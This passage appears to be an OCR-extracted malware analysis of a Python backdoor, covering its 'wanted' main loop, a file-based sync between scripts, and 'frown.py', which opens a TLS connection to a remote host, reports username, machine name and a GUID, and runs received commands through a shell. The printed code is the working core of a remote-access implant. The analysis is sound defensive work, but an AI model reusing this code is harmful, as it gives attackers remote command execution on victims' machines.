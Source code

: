 ```python
def main():
    while wanted:
        communicate()
    sys.exit(0)
if __name__ == "__main__":
    main()
```
it executes the communication function whilst the victim is still
**wanted**, this status means that the victim is still a matter of
interest.

**Communicate function**: -

-   It sets a header which consists of username + current path as if
    it's a cmd (ex: username\@pc_name:execution_path\$)

-   It writes it in "**Abibliophobia23**" file which used for
    inter-scripts communications and writes the response and header on
    it.

-   It writes 0 in **".ready**" and waits for another script
    (**frown.py**) to set it, as if it's a **synchronization mechanism**
    to make sure that every script do its job in turns.

-   Start executing the commands stored in "**Abibliophobia23**" as
    **CMD** commands and if the resp was \"**exit**\" then will go
    through process of **termination** and "**frown.py" would have been
    terminated by then**.

## **Frown.py**
```python
def recv(size, wait=False):
    ready = select.select([sock], [], [], 187)
    if wait:
        while not ready[0]:
            if not is_connected():
                return False
            ready = select.select([sock], [], [], 187)
    if ready[0]:
        d = sock.recv(size)
        if not d:
            raise ConnectionResetError()
        return d.decode()
    return False
def run_cmd(cmd, wait=True):
    if not wait:
        Popen(cmd, shell=True)
        return ""
    comm = Popen(cmd, shell=True, stdout=PIPE, stderr=PIPE, stdin=PIPE, universal_newlines=True)
    stdout, stderr = comm.communicate()
    if not stdout:
        return str(stderr)
    return str(stdout)
def connect():
    global sock
    while True:
        try:
            context = ssl.SSLContext(ssl.PROTOCOL_TLS)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock = context.wrap_socket(s, server_hostname=host)
            sock.connect((host, port))
            sock.send(b"almond")
            res = recv(5, True)
            if "who" in res:
                sock.send(f"""{getuser()}@{node()}-{guid}""".encode())
```